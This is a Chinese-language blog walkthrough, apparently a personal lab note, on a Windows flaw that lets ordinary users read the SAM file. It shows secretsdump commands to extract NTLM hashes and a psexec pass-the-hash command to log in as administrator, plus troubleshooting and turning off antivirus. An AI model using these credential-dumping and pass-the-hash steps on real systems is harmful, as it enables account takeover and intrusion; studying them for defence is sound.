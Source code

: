 # CVE-2021-33757
## 简单说  
简而言之，属于windows的一个配置权限出错造成。  

## 实践  
我们都知道如果要获取本地的sam文件的话需要administrator的权限账户，但是微软在最近的一次更新上可以使用一般的用户权限获取dump文件 。   

这意味着，如果我们  获取到了一个普通用户权限的shell ，在可以使用PTH的情况下 ，我们就可以通过获取sam文件当中的administrator用户的hash 最后进行 pth登录 


1. 如图所示，作为一个普通的User组也能进行dump  sam文件  

![20211101002744](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101002744.png)





2. 使用secretdump还原其中的ntlmhash  

```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -system SYSTEM-2021-10-14 -security SECURITY-2021-10-14 -sam SAM-2021-10-14 local
```

![20211101002757](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101002757.png)



psexec 进行远程连接   

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 administrator@192.168.233.136 cmd
```

## 使用psexec 连接出现了一些错误  



### 1、 not writeable 这个问题并没有得到结局 

![20211101002814](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101002814.png)

![20211101002838](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101002838.png)

明明权限已经更改但是还是不能  

![20211101002851](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101002851.png)

后面想想应该是500的原因  



### 2、 账户 disabled  

![20211101002903](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101002903.png)

基于这个问题原因是administrator账户已经被禁用了  

这在win10上是默认的， 

解决的方法  

https://zhuanlan.zhihu.com/p/362058979



当运行命令之后出现的结果是   

![20211101002916](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101002916.png)  



在kali当中进行连接 

![20211101002929](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101002929.png)



看看靶机猜测是 需要创建密码

![20211101002940](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101002940.png)





在使用镜像之前需要创建一个还原点，还原点当中会包括其中的SAM文件
![20211101002957](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101002957.png)
![20211101003007](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101003007.png)
远程连接的时候windows日常报毒  
![20211101003019](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101003019.png)

关闭之后进行   

![20211101003033](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101003033.png)







这里留下一个问题 

我明明是使用administrator创建的用户为什么在这里返回的是 system权限 ？   

```
psexec -s 的原因 
```

![20211101003047](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211101003047.png)




## refer  
system权限和administrator的权限之间的关系？ 

如何使用system权限？  



admin$ c$ ipc $ 的一些东西

https://blog.51cto.com/u_13710682/2117614



